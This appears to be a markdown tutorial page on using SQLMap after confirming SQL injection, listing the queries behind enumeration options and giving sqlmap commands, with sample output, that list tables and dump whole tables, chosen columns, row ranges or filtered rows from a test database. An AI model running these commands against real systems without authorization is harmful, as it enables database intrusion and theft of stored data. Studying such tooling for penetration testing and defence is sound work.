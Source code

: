 Once SQL injection is confirmed, **enumeration** begins—retrieving valuable information from the vulnerable database using **SQLMap’s automation capabilities**.

---

### **SQLMap Data Exfiltration**

SQLMap uses a built-in set of predefined queries (e.g., from `queries.xml`) for different DBMSes like MySQL, PostgreSQL, MSSQL, etc.

#### Examples (MySQL):
- **`--banner`** → `VERSION()`
- **`--current-user`** → `CURRENT_USER()`
- **`--current-db`** → `DATABASE()`
- **`--is-dba`** → `(SELECT super_priv FROM mysql.user WHERE user='%s')='Y'`
- **User Enumeration (Inband & Blind)** → Queries vary based on injection type (UNION/Error-based vs Blind)

### **Enumerating Tables**

List all tables in a specific database:
```bash
sqlmap -u "http://www.example.com/?id=1" --tables -D testdb
```

```
Database: testdb
Tables:
- member
- data
- international
- users
```

### **Dumping Table Data**

Dump entire contents of a table:
```bash
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb
```

```bash
+----+--------+------------+
| id | name   | surname    |
+----+--------+------------+
| 1  | luther | blisset    |
| 2  | fluffy | bunny      |
| 3  | wu     | ming       |
| 4  | NULL   | nameisnull |
```

### **Dump Specific Columns**

Only retrieve selected columns (e.g., name and surname):
```bash
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname
```

### **Dump Specific Rows**

Use `--start` and `--stop` to dump only specific row ranges:
```bash
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --start=2 --stop=3
```

### **Conditional Row Dump**

Retrieve data based on a WHERE clause:
```bash
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"
```

